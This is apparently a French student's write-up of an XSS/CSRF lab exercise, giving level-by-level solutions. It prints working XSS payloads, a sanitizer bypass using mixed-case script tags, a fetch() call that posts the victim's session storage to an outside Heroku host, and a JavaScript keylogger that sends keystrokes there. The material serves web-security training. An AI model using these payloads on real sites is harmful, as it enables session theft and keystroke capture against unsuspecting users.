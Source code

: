 # XSS-CSRF
https://xss-csrf-tp.herokuapp.com/men
## Partie 1 - XSS

### Level 1 : 
Pour ce niveau, j’ai décidé d’intégrer une image dans l’URL qui affiche un message d’erreur  si elle n’est pas trouvée → une popup d’erreur s’affiche https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%22alert%22%20onerror=%22alert(%27danger%27)%22%3E 

### Level 2 :
* Pour ce niveau,  j’ai repris ma démarche précédente en insérant ```<img src="alert" onerror="alert('danger')">``` dans le champ titre du formulaire ainsi l’image qui doit être affiché n’est pas trouvée → une popup d’erreur s’affiche par contre ```<script>alert(‘danger’)</script>``` ne fonctionne pas
* On dirait que le navigateur protége le site en effectuant un genre d’escape
* L’API Fetch de JS effectue une requete asynchrone en utilisant un appel AJAX pour recuperer les données
* La solution que je prefere est <img src="danger" onerror="while(true) { alert(‘danger’); }">
* Pour envoyer sur heroku la session de l’utilisateur de maniere invicible, j’utilise : <img src="danger" onerror="fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({sessionName: sessionStorage.SessionName, session: sessionStorage.getItem('SESSIONDANGER')})})">

### Level 3 :
* Pour rusez le bypass du sanitizer, j’ai simplement ajouter des majuscule dans les balise script ainsi les scripts sont ajouté dans le DOM
* Pour faire un keylogger en JS qui envoie les données sur heroku : <sCript>document.addEventListener('keypress', function(event) { console.log(String.fromCharCode( event.which )); fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({keypressed: String.fromCharCode( event.which )})})}); </sCript>

## Partie 2 - CSRF

En construction
